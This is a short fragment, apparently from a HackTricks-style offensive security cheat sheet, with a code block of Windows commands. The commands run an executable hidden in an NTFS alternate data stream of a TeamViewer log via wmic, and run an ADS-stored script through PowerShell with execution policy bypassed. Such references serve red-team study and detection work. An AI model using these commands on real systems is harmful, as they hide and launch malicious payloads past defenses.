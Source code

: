 ```bash
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
# Execute a script stored in an ADS using PowerShell
powershell -ep bypass - < c:\temp:ttt
```
{{#include ../banners/hacktricks-training.md}}
